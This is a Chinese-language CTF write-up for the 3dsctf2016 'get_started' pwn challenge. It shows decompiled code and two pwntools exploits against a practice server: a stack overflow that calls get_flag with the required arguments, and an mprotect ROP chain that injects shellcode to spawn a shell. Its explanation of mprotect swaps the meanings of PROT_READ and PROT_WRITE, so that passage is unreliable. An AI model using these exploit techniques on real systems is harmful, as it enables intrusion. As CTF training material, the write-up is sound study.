 ```yaml
---
layout: post
title:  get_started
date:   2021-01-30 00:01:01 +0300
image:  2021-01-30-dandelion.jpg
tags:   [ctf,PWN,3dsctf2016]
---
```


主函数

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

get_flag()

```assembly
void __cdecl get_flag(int a1, int a2)
{
  int v2; // eax
  int v3; // esi
  unsigned __int8 v4; // al
  int v5; // ecx
  unsigned __int8 v6; // al

  if ( a1 == 814536271 && a2 == 425138641 )
  {
    v2 = fopen("flag.txt", "rt");
    v3 = v2;
    v4 = getc(v2);
    if ( v4 != 255 )
    {
      v5 = (char)v4;
      do
      {
        putchar(v5);
        v6 = getc(v3);
        v5 = (char)v6;
      }
      while ( v6 != 255 );
    }
    fclose(v3);
  }
}
```

我们想通过栈溢出，使得程序直接返回到if语句中的v2 = fopen("flag.txt", "rt");处。但是测试发现行不通。

又因为if判断中的两个变量就是get_flag()函数的参数，所以我们想到可以使栈溢出带参数。

```assembly
from pwn import *

io = remote("node3.buuoj.cn",27711)

flag = 0x080489A0
exi = 0x0804E6A0
# p1 = 0x308CD64F # 814536271
# p2 = 0x195719D1 # 425138641
p1 = 814536271
p2 = 425138641
payload = "a" * 0x38 + p32(flag) + p32(exi)
payload += p32(p1) + p32(p2)
io.sendline(payload)

io.interactive()
```

这里get_flag()函数的返回地址是不能乱写的，如果程序异常退出就不能回显flag。

所以我们使他返回到exit()函数。

后来查阅资料，发现还有一种万能解法。

```assembly
int mprotect(const void *start, size_t len, int prot);
```

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

prot可以取以下几个值，并且可以用''\|''将几个属性合起来使用：

1）PROT_READ：表示内存段内的内容可写；

2）PROT_WRITE：表示内存段内的内容可读；

3）PROT_EXEC：表示内存段中的内容可执行；

4）PROT_NONE：表示内存段中的内容根本没法访问。

需要指出的是，指定的内存区间必须包含整个内存页（4K）。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍。
如果执行成功，则返回0；如果执行失败，则返回-1，并且设置errno变量，说明具体因为什么原因造成调用失败。

所以如果发现程序中有mprotect()函数，就可以试一下此方法。

```assembly
from pwn import *

io = remote('node3.buuoj.cn',27711)

mprotect = 0x0806EC80
buf = 0x80ea000
pop_3_ret = 0x0804f460
'''
.text:0804F460         pop     ebx
.text:0804F461         pop     esi
.text:0804F462         pop     ebp
.text:0804F463         retn
'''
read_addr = 0x0806E140
 
payload = 'a'*56 +p32(mprotect) + p32(pop_3_ret)
payload += p32(buf) + p32(0x1000) + p32(0x7)
payload += p32(read_addr) + p32(buf)
payload += p32(0) + p32(buf) + p32(0x100)
io.sendline(payload)
 
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
io.sendline(shellcode)

io.interactive()
```

